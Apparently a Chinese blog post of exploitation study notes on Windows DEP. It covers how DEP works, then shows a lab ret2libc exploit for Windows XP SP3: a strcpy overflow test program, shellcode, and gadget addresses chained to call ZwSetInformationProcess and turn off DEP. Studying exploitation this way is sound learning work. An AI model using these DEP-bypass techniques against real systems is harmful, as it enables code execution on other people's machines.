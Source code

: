 ```yaml
---
title: 漏洞利用学习笔记-014-DEP的介绍
description: Windows的DEP保护和简单的攻击方法
date: 2020-11-19 12:42:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - 数据执行保护
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-014-dep的介绍/)

## DEP的介绍

> 溢出攻击的根源是未准确区分数据和代码，但是重新设计计算机结构是不太可能的事情，所以使用各种办法去减缓溢出攻击

### 原理

- 将数据所在的内存页标为不可执行，而程序成功溢出进入shellcode时，CPU将会抛出执行异常
- DEP分为软件DEP和硬件DEP，而软件DEP指的是SafeSEH，硬件DEP在AMD平台上称为No-Execute Page-Protection(NX)，Intel平台上称为Execute Disable Bit(XD)
- 操作系统通过设置内存页的NX和XD标记，来指明不能从此执行代码，PageTable中插入一个标记来标识此页是否运行执行指令，0表示允许，1表示不允许

### DEP的工作状态

- Optin：允许系统组件和服务使用DEP，其它程序将不予保护，而用户可以通过ACT工具标记程序使用DEP，这种保护可以被程序动态关闭，多用于普通用户操作系统
- Output：为排除列表外的程序启用DEP，多用于服务器操作系统
- AlwaysOn：对所有的程序应用DEP保护，不可被关闭，只有64位操作系统才使用此模式
- AlwaysOff：一般不用

### 编译选项

> `/NXCOMPAT`编译选项将在PE头中设置`IMAGE_DLLCHARACTERISTICS_ NX_COMPAT`标识，位于`IMAGE_OPTIONAL_HEADER`中的`DllCharacteristics`，此值为`0x100`时表示启用DEP

## 利用Ret2Libc挑战DEP

### 原理

- DEP保护时溢出失败的原因是DEP检测到代码在非可执行页上执行，如果让程序直接跳转到一个已存在的系统函数中，必然不会被拦截
- `Ret2Libc`是`Return-to-libc`的简写，如果将每条exploit都找到一条在系统lib中的替代品，那么此exp一定可以正确执行，但问题在于不是每条指令都不包含0，不断的跳转容易跳错地方
- 以下是三个可行的方法
  - 跳转到`ZwSetinfomationProcess`函数将DEP关闭，转入shellcode执行
  - 跳转到`VirtualProtect`将shellcode页面设为可执行，随后转入shellcode执行
  - 跳转到`VirtualAlloc`申请一段可执行的内存空间随后跳入shellcode执行

### 尝试ZwSetinfomationProcess关闭DEP

#### 前置内容

- 一个进程的DEP标识存在于`KPROCESS`结构的`_KEXECUTE_OPTION`上，可以通过API函数修改

> `_KEXECUTE_OPTION`结构

```cpp
Pos0ExecuteDisable:1bit
Pos1ExecuteEnable:1bit
Pos2DisableThunkEmulation:1bit
Pos3Permanent:1bit
Pos4ExecuteDispatchEnable:1bit
Pos5ImageDispatchEnable:1bit
Pos6Spare:2bit
```

- 当前进程DEP开启的时候，`ExecuteDisable`将会被设置为1
- 当前进程DEP关闭的时候，`ExecuteEnable`将会被设置为1
- `DisableThunkEmulation`为了兼容ATL被设置
- `Permanent`被置1后表示这些标志都不能再被修改
- 我们只要将`_KEXECUTE_OPTIONS`的值设置为`0x02(00000010)`就可以将`ExecuteEnable`置为1

#### shellcode原理

- `LdrpCheckNXCompatibility`函数为了检查DEP兼容性，满足以下条件之一将可以关闭DEP
  - DLL受SafeDisc版权保护系统保护
  - DLL中含有`.aspack`，`.pcle`，`.sforce`等字节的时候
  - DLL存在于注册表声明的不需启用DEP的模块的时候`HKEY_LOCAL_MACHINE\SOFTWARE \Microsoft\ Windows NT\CurrentVersion\Image File Execution Options\DllNXOptions`

#### 代码

> 测试环境：系统：Windows XP SP3，DEP状态：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
ULONG ExecuteFlags = MEM_EXECUTE_OPTION_ENABLE;

ZwSetInformationProcess(
    NtCurrentProcess(),     // Handle(-1)
    ProcessExecuteFlags,    //0x22
    &ExecuteFlags,          // ptr to 0x2
    sizeof(ExecuteFlags)    //0x4
);
```

```cpp
#include <string.h>
#include <windows.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x52\xE2\x92\x7C" // mov eax, 1
"\x96\x73\x1B\x5D" // mov ebp, esp & esp+8
"\x1E\xAD\x17\x5D" // esp+0x24
"\xB4\xC1\xC5\x7D" // jmp esp
"\x90\x90\x90\x90"
"\x24\xCD\x93\x7C" // call Close DEP
"\x90\x90\xE9\x2D" // jmp to shellcode start
"\xFF\xFF\xFF\x90"
;

void test()
{
    char tt[176];
    strcpy(tt,shellcode);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

#### 技术细节

- 需要对比al是否为1，所以第一步retn将会返回到`mov eax, 1`，`retn`的地址，此地址将会返回到修缮ebp的位置
- 因为在调用函数之前，会访问ebp中的值，但是它已经被刷写掉了，所以将修缮ebp，在此使用了`push esp`，`pop ebp`，`retn`三条指令将esp中的地址赋值给ebp，由于retn后面跟着数字，因此ebp将会加上这个数字，也就是`ebp+8`，此时ebp小于esp了，一旦调用子程序将会对栈区进行破坏，所以依旧得将ebp再加上一些，我在此选择将esp加上0x24，与之前的0x8凑成了0x30的栈空间，这样在返回的时候将会返回到语句`retn 0x24`
- `retn 0x24`语句在返回的时候将会返回到调用关闭DEP的函数`ZwSetInformationProcess`的地方，调用完毕后将会使用leave语句并retn，因此它将会返回到`jmp esp`的地址处
- 由`jmp esp`跳转到`\x24\xCD\x93\x7C`数据存放的地址处，而此垃圾数据将不会影响shellcode的执行
- 在垃圾数据的后方写入一个跳转即可，至此跳到shellcode真实执行之处
